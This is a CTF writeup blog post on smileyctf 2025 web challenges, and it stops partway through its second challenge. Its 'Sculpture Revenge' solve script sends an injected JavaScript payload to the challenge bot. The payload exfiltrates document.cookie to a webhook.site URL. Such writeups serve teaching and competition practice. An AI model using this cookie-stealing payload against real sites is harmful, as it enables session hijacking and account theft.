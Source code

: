 ```yaml
---
title: 'some smileyctf 2025 writeups'
description: 'some smileyctf 2025 writeups'
date: 2025-06-14
tags: ['web', 'ctf', 'writeup', 'blockchain', 'ai/ml']
image: './smiley.png'
authors: ['jp']
---
```


# Background Information
Hi, it's been a while since I wrote a ctf writeup. I participated in smileyctf w the cbf gang. So cool to see us mostly all back ctf'ing together after a brief hiatus period (7th place woo)!

## Web

### Sculpture Revenge

> client side python is cool. adapted from actf 2025 to require the harder solve.

Is skulpt, and is based on the amateurs ctf 2024 challenge scultpure. Well, we can use `jseval` to basically just execute javascript. Although, I had to adjust the payload a lil bit after I got local solve but no remote.

```python
import base64
import requests

url = "https://web-sculpture-revenge-h132e5cp.smiley.cat"
payload = """jseval(
  "var img=new Image();" +
  "img.src='https://webhook.site/7d869a27-659b-4af6-b635-76073cf50229/?'+document.cookie;"
)"""
# payload = """import unittest\njseval("alert(1)")"""
encoded = base64.b64encode(payload.encode()).decode()
print(encoded)
req = requests.get(f"{url}/bot?code={encoded}")
print(req.text)
```

And we get the flag: 

`.;,;.{we_love_cattle_no_flags_in_dist_trust_we_know_what_we_are_doing_yep}`

### Extension Mania

We have a website that allows us to serve html to http://coolctfgames.localhost:3000, and a bot that will access a url. 

The goal is that the website must stay on that link.

```js
if(currentUrl.host == config.host || currentUrl.host == config.host + ":" + config.port){
            console.log("Flag conditions met.");
            shouldGiveFlag = true;
        } else {
            // for your local debugging pleasure
            console.log("Bot did not reach the expected host:", currentUrl.host, pageUrl);
        }
```
